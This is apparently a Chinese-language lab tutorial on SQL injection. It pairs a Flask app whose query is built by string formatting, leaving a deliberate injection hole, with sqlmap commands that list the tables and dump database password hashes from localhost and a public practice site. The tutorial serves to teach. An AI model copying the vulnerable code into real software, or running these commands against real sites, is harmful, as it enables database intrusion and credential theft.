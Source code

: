 ```yaml
---
title: SQL注入获取网站数据库密码
date: 2023-08-02 16:19:41
---
```


# 测试案例

Flask Web框架

```python
from flask import Flask, request
import pymysql

app = Flask(__name__)

# 配置数据库连接信息
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = '123456'
app.config['MYSQL_DB'] = 'test'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'  # 使用DictCursor返回字典类型的结果

# 创建MySQL连接
mysql = pymysql.connect(
    host=app.config['MYSQL_HOST'],
    user=app.config['MYSQL_USER'],
    password=app.config['MYSQL_PASSWORD'],
    db=app.config['MYSQL_DB'],
    cursorclass=pymysql.cursors.DictCursor
)

# 在视图函数中执行SQL查询
@app.route('/', methods=['GET'])
def index():
    username = request.args.get('username')
    cursor = mysql.cursor()
    sql = "SELECT * FROM t_user WHERE name = %s" % username
    print(sql)
    cursor.execute(sql)
    results = cursor.fetchall()
    cursor.close()
    return str(results)

if __name__ == '__main__':
    app.run()

```

# 脚本

https://github.com/sqlmapproject/sqlmap

正常查询

![image-20230802162331386](http://cxy-csx.top/image-20230802162331386.png)

在项目目录下执行命令

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --batch
```

![image-20230802162442372](http://cxy-csx.top/image-20230802162442372.png)

注入风险

# 获取网站数据库表

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --tables
```

![image-20230802162628070](http://cxy-csx.top/image-20230802162628070.png)

# 获取数据库密码

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --password
```

![image-20230802162746674](http://cxy-csx.top/image-20230802162746674.png)

# 靶向网站

http://testphp.vulnweb.com/artists.php?artist=1

![image-20230802174448614](http://cxy-csx.top/image-20230802174448614.png)

数据库

![image-20230802174415017](http://cxy-csx.top/image-20230802174415017.png)

